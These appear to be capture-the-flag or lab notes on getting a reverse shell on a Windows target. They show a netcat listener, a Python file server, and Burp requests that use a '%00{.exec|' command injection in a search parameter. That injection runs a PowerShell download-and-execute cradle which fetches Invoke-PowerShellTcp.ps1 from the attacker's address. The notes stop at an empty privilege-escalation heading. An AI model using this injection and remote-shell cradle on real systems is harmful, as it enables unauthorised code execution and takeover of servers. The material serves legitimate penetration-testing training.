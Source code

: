 ## setup listener
    nc -lvnp 1337

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557122389243_image.png)

## SimpleHTTPServer setup
    python -m SimpleHTTPServer

*in directory of the .ps1 that we will upload to the sever*

## Windows 32bit / 64bit directories
    C:\Windows\System32\ # 32bit
    C:\Windows\SysWow64\ # still 32bit
    C:\Windows\SysNative\ # 64bit
## Burp exec to download ps1
Inside Burp send the following command to have the target download our newly crafted ps1 file.


    GET /?search=%00{.exec| c:\Windows\SysNative\WindowsPowershell\v.1.0\powershell.exe ping 10.10.14.17 #ctrl+u to unicode encode / ctrl+shift+u to decode

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557123128792_image.png)

Listen on tcpdump

    tcpdump -i tun0

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557123170507_image.png)

*confirmed connection*

Sending ps1 payload:

    GET /?search=%00{.exec| c:\Windows\SysNative\WindowsPowershell\v.1.0\powershell.exe IEX(New-ObjectNet.WebClient).downloadString('http://10.10.14.17:8000/Invoke-PowerShellTcp.ps1'),)

Url encode with ctrl+u:

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557123411635_image.png)

Target executes the download:

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557123485214_image.png)

*executed x4 times but after execution on the 1337 listener we get a response:*

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557123534147_image.png)

# Priv-Esc (windows)

First step:
